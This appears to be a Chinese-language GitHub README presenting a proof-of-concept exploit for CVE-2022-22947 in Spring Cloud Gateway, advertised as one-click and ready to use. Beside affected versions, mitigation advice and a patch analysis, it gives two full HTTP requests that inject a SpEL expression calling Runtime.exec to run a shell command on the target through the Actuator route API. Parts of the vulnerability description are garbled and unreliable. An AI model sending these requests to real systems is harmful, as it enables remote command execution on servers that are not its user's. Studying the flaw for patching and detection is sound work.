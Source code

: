 # Spring_CVE_2022_22947
Spring_CVE_2022_22947:Spring Cloud Gateway现高风险漏洞cve,poc漏洞利用,一键利用,开箱即用
![image](https://user-images.githubusercontent.com/53851034/156614534-ec365420-9bca-4236-a10e-98fc7ed71d43.png)

漏洞描述 ：#####
#漏洞
漏洞描述：#####
### Spring Cloud Gateway Spring中API网关攻击。3.1.0及3.0.6版本（包含）之前存在SpEL表达式的插件，当开发者可以利用Actuator API的执行情况下，将是该漏洞的命令选项。
漏洞描述：#####
# 影  响范围 :
## Spring Cloud Gateway以下版本均受影响：

    3.1.0
    3.0.0至3.0.6
    其他老版本 
    
#  缓解方法 ： 
    3.1.x用户应升级到3.1.1+
    3.0.x用户应升级到3.0.7+
    如果不需要Actuator端点，可以通过management.endpoint.gateway.enable：false配置将其禁用
    如果需要Actuator端点，则应使用Spring Security对其进行保护 

CVE-2022-22946：HTTP2 不安全的 TrustManager :

严重性 ： Medium 


![image-20220303141049270](https://user-images.githubusercontent.com/53851034/156614983-1471d8b7-89b5-4e8d-8d5b-a451089a44e9.png)



###





# poc漏洞利用:

### 来自白帽汇:


POST /actuator/gateway/routes/new_route HTTP/1.1    

   Host: 127.0.0.1:9000

   Connection: close

   Content-Type: application/json

   {

     "predicates": [

        {

         "name": "Path",
 
         "args": {

           "_genkey_0": "/new_route/**"
 
        }

        }

     ],

   "filters": [

     {

      "name": "RewritePath",

      "args": {

       "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"touch/tmp/x\")}",
 
       "_genkey_1": "/${path}"

     }

    }

  ],

 "uri": "https://wya.pl",

 "order": 0

}

POST /actuator/gateway/refresh HTTP/1.1

Host: 127.0.0.1:9000

Content-Type: application/json

Connection: close

Content-Length: 258

{

 "predicate": "Paths: [/new_route], match trailing slash:true",

 "route_id": "new_route",

 "filters": [

   "[[RewritePath#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")} =/${path}], order = 1]"

  ],

 "uri": "https://wya.pl",

 "order": 0

}

### 简单说明一下：第一个请求将创建路由；第二个命令强制重新加载配置。并且，在路由的重新加载时，将会执行SpEL表达式。

# 利用方法:
https://nosec.org/avatar/uploads/attach/image/dda4a464204ce2a90307042d714db1d6/1.png![image](https://user-images.githubusercontent.com/53851034/156773508-42684d14-2f07-48e0-a41e-84b2997639d5.png)

SimpleEvaluationContext支持SpEL功能的一个子集，一般来说，它比StandardEvaluationContext更加安全。根据Javadocs的说法，“SimpleEvaluationContext只支持SpEL语言语法的一个子集，例如，不包括对Java类型、构造函数和Bean引用的引用。”

当我在研究这个问题时，我看到SpEL的原始需求来自GitHub repo上的一些问题：主要是用户希望实现一个可以通过SpEL表达式调用的自定义bean。一个例子是管理一个路由的速率限制。

当我研究这个补丁的时候，我发现仍然可以调用没有方法参数的Bean——这意味着#{@gatewayProperties.toString}可以被用来打印出gatewayPropertiesBean的定义。而SimpleEvaluationContext是不允许调用#{@gatewayProperties.setRoutes(..)}的。这在本质上应该只限制getter方法被调用。

#### 或者:

在使用添加和刷新路由所需的两个HTTP请求发送#{@gatewayproperties.tostring}后，可以看到上图所示内容。请注意，一些内部信息可能会遭到泄漏。根据可用的Bean，这可能被用来泄漏应用程序状态的属性或其他属性。

虽然网关服务不用对类路径中包含的bean负责，但它至少应该确保它的库中的bean不会被调用，从而导致泄漏重要信息或对应用程序产生负面影响。

最后，我编写了更多的CodeQL查询，看看会发生什么情况。简单来说，我想在库中找到所有不带参数的方法的bean。然后，递归地查看返回类型，看看是否有任何没有参数的方法可以调用。这些查询看起来类似于bean1.method1.method2这个样子。


